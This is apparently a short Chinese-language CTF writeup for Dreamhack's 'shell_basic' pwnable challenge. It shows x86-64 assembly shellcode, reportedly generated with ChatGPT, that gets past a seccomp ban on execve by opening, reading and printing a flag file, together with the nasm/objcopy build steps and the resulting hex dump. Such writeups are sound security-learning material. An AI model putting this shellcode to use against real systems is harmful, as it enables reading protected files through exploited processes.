 ```yaml
---
title: shell_basic
published: 2025-07-10
description: "Dreamhack"
image: ""
tags: ["CTF Writeup", "Dreamhack", "pwnable"]
category: "Dreamhack"
draft: false
lang: ""
---
```


# shell_basic

[題目連結](https://dreamhack.io/wargame/challenges/410)

這一題限制在 10 內完成

seccomp (secure computing mode) 增加的規則會封鎖 `execve` 和 `execveat`

題目說 flag 在 `/home/shell_basic/flag_name_is_loooooong`

找 chatgpt 生 shellcode (這應該不會是需要自己刻的東西...吧)

```asm
section .text
global _start

_start:
    ; open(path, 0)
    mov rax, 2
    lea rdi, [rel path]
    xor rsi, rsi
    syscall

    ; read(fd, rsp, 100)
    mov rdi, rax        ; fd
    mov rsi, rsp        ; buffer
    mov rdx, 100
    xor rax, rax        ; syscall: read
    syscall

    ; write(1, rsp, 100)
    mov rdi, 1          ; stdout
    mov rax, 1          ; syscall: write
    syscall

    ; exit(0)
    mov rax, 60
    xor rdi, rdi
    syscall

path:
    db "/home/shell_basic/flag_name_is_loooooong", 0
```

```bash
nasm -f elf64 flag.asm -o flag.o
objcopy --dump-section .text=flag.bin flag.o
xxd flag.bin

00000000: b802 0000 0048 8d3d 2b00 0000 4831 f60f  .....H.=+...H1..
00000010: 0548 89c7 4889 e6ba 6400 0000 4831 c00f  .H..H...d...H1..
00000020: 05bf 0100 0000 b801 0000 000f 05b8 3c00  ..............<.
00000030: 0000 4831 ff0f 052f 686f 6d65 2f73 6865  ..H1.../home/she
00000040: 6c6c 5f62 6173 6963 2f66 6c61 675f 6e61  ll_basic/flag_na
00000050: 6d65 5f69 735f 6c6f 6f6f 6f6f 6f6e 6700  me_is_loooooong.
```

![flag](/assets/dreamhack/shell_basic/image.png)
